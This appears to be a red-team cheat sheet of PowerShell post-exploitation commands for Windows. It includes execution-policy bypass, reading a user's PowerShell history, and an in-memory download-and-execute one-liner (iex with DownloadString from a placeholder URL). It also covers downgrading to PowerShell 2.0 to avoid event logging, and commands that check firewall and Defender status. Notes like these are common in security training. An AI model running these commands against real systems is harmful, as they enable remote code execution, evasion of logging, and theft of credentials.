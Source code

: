 ### **Harnessing PowerShell**

```PowerShell
Get-Module # Lists available modules loaded for use
Get-ExecutionPolicy -List # Will print the execution polocy settings for each scope on a host
Set-ExecutionPolicy Bypass -Scope Process # Will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt # Get the specified user's PowerShell history
Get-ChildItem Env: | ft Key,Value # Get environment variables

# Download a file from the web and call it from memory:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```

### **Downgrading PowerShell**

Many versions of PowerShell often exist on a host. If not uninstalled, they can still be used  

PowerShell event logging was introduced as a feature with PowerShell 3.0 and forward. With that in mind, we can attempt to call PowerShell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer.  

```PowerShell
Get-host
# Look at the powershell version

powershell.exe -version 2
Get-host
# Look at the powershell version
```

The primary place to look for PowerShell logs is Applications and Services Logs > Microsoft > Windows > PowerShell > Operational  

### **Checking Defenses**

```PowerShell
# Firewall Checks
netsh advfirewall show allprofiles

# Defender Check (from cmd.exe):
sc query windefend

# Check Defender status and config:
Get-MpComputerStatus

# Am I alone?
qwinsta
```

### **Networking Commands**
